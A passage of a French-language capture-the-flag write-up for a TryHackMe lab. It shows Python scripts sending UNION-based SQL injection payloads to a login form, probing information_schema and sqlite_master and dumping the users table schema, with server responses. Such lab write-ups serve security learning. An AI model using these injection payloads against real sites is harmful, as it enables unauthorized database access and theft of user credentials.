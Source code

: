 On crée un script qui permet d'obtenir le nombre colonne.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python colonne.py 
4
```

Dans notre cas on a 4 colonnes.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select table_name,2,3,4 from information_schema.tables --"
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

On teste avec information_schema pour voir si c'est MySQL mais ça ne fonctionne pas.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select tbl_name,2,3,4 from sqlite_master -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for users is incorrect! 4"}
```

On teste avec SQLite ça fonctionne on obtient un table qui a comme nom users.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select 1,2,3,sql from sqlite_master -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for 1 is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
```
